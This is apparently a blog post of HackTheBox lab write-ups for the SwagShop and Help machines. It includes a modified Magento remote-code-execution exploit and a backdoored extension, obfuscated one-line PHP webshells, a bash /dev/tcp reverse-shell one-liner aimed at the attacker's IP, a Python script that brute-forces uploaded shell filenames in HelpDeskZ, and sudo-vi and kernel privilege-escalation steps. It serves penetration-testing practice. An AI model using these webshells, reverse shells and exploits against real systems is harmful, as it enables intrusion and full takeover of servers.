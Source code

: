 ```yaml
---
title: "HackTheBox - WriteUp 2"
date: 2019-05-13T22:20:40+08:00
description: "HackTheBox 练手 - Swagshop, Help"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# SwagShop

## Reference

1. Check here for more details about linux command utils: https://gtfobins.github.io/
2. https://packetstormsecurity.com/files/133327
3. http://10.10.10.140/app/etc/local.xml
4. https://github.com/lavalamp-/LavaMagentoBD
5. https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
6. http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/

## Step 1: NMAP

Opened Port: 80, 22.

Apache2 with Ubuntu 18.04, SSH Useless...

## Step 2: SearchSploit

> For OSCP Preparation: Use Searchsploit to search exploit-db.com and modify it to your case.
> Leave the metasploit alone.

```bash
$ searchsploit -m exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                             |  Path (/opt/searchsploit/)
------------------------------------------------------------------------------------------------------------------------------------------------
Magento eCommerce - Remote Code Execution                  | exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
```

Found the RCE, next modify it. Maybe the creator want to let us know more about what's behind, he even not wrote correct URL rewrite in Apache.

```python
target = "http://10.10.10.140/"
target_url = target + "/index.php" + "/admin/Cms_Wysiwyg/directive/index/"
```

Why do I modify this file?  Check the last reference. 

Run the script and go to the admin panel to do the next step.

> NOTE: IF YOU MET 503 ERROR, SOMEONE MUST MODIFY THE `index.php` IN A WRONG WAY! RESET THE BOX!
> So, please be patient if you are a free user. Or just buy a VIP like what I do.

## Step 3: Normal User

Execute the Python Script. Use "forme:forme" to login `/downloader` administration extension panel.

Then, modify the webshell:

```bash
$ git clone https://github.com/lavalamp-/LavaMagentoBD
```

Go to the `LavaMagentoBD/Backdoor Code/app/code/community/Lavalamp/Connector/controllers/IndexController.php`, Open `AntSword`.

Insert the corresponding call URL to the `AntSword` and then generate an one-line shell like this:

```php
<?php $RQUC=create_function(chr(01306-01242).chr(786-671).str_rot13('b').base64_decode('bQ==').str_rot13('r'),chr(0x202-0x19d).str_rot13('i').chr(0x1149a/0x2da).chr(063030/0362).chr(01374-01324).str_rot13('$').chr(0x30d-0x29a).base64_decode('bw==').str_rot13('z').chr(0401-0234).chr(0x3488/0x148).chr(53985/915));$RQUC(base64_decode('MTk4N'.'TE5O0'.'BldkF'.'sKCRf'.''.chr(0233163/01647).str_rot13('R').chr(306-249).chr(990-906).chr(51600/600).''.''.chr(0134760/01250).chr(0x211-0x19d).chr(037260/0354).chr(0x6b30/0x118).base64_decode('MA==').''.'ZnZnh'.'0dl0p'.'OzU5N'.'TU1Nz'.'s='.''));?>
```

Don't forget the password the software gives you. Then make a `md5sum` of this php file, and change the corresponding value in the `LavaMagentoBD/Backdoor Code/package.xml`. Next, According the project readme, repack it and upload to the downloader panel. Now you have the reverse shell. Use AntSword as you pleased.

## Step 3: Before privilege escalation

After you get the reverse shell as www-data, just `cat /etc/passwd` to get the user `haris`, and next, `cat /home/haris/user.txt`, you get the normal user token.

Carefully check the `ls -alh /home/haris`, found `.sudo_as_administrator_successful` (something like), you know that you need to escalate with `sudo`.

## Step 4: Get interactive shell and escalate

Check GTFOBINS and machine, found Python3 with bash.

Use the following commands to get the interactive shell:

```bash
$ export RHOST=<YOUR IP>
$ nc -lp 14445
$ bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 5: Escalate

Get the spawned interactive shell and run `sudo -l`, found:

```bash
$ sudo -l
root (NOPASSWD:ALL):/usr/bin/vi /var/www/html/*
```

**USE THE ABSOLUTE PATH** to get the root shell without any password and do the f*cking things you want:

```bash
$ sudo /usr/bin/vi /var/www/html/test.sh
```

Then `:!cat /root/root.txt` get the root token. 

Finished!

# Help

## Step 1: NMAP

80 For HTTP; 22 For SSH, Useless; 3000 For HTTP, Node.js ExpressJS framework.

Then use Nikto: Found Apache default page on port 80, found HelpDeskZ on `/support` .

## Step 2: Exploit, get normal user

Vulnerable Software Source Code:  [Sourcegraph](https://sourcegraph.com/github.com/AlexisGoatache/HelpDeskZ@006662bb856e126a38f2bb76df44a2e4e3d37350/-/blob/controllers/submit_ticket_controller.php#L137)

Check the code, even the developer let the filename get obfuscated by "Filename + MD5(timestamp).php", it still could be found via bruteforce.

```php
<?php
// ScFVmDQa 
$YdyH=create_function(chr(11232/312).base64_decode('cw==').chr(01014-0635).chr(0256112/01462).str_rot13('r'),chr(354-253).chr(0x187-0x111).base64_decode('YQ==').chr(0x11e74/0x2a7).chr(026140/0434).chr(31644/879).chr(101775/885).str_rot13('b').chr(0x355-0x2e8).str_rot13('r').chr(738-697).chr(073261/01003));$YdyH(base64_decode('MzMxM'.'jQyO0'.'BldkF'.'sKCRf'.''.base64_decode('VQ==').str_rot13('R').chr(711-654).str_rot13('G').chr(17286/201).''.''.chr(063750/0574).chr(01071-0705).chr(01674-01550).chr(0xbc15/0x21d).str_rot13('0').''.'ZWbUR'.'RYV0p'.'Ozk5M'.'zcyNj'.'s='.''));?>
```

Finish all the stuffs in the ticket and upload the one-line PHP trojan as attachment, **even if you get a notification that "File is not allowed", the file is successfully uploaded in fact.**

Use the python exploit here to enum the PHP trojan filename:

```python2
#!/usr/bin/env python2
# EID: 40300

import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 1500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    print "This is the " + str(x) + "time:"
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)
    else:
        print "has tried " + url + ": " + str(response.status_code)

print "Sorry, I did not find anything"
```

Use the `http://10.10.10.121/support/uploads/tickets/ <PHP TROJAN FILENAME>` , please don't forget the last `/` of the app base URL.

After found it, just send a GET request to activate. Then do anything you want via `AntSword`.

## Step 3: Privilege Escalation

Execute `uname -a`, found `Linux Kernel 4.4.0-116`, GoogleFU~

Found a local privilege escalation exploit in `searchsploit "4.4.0-116"`, just mirrored it and send it to the box then compile it.

Get a reverse shell, then use `bash` to get the interactive shell, and use `python3` to spawn a tty.

Next, compile and execute: `gcc -o exsc 44298.c && ./exsc`, and then it will gives you a rooted spawned interactive reverse shell.

Finished.

(END) 2019.5.14
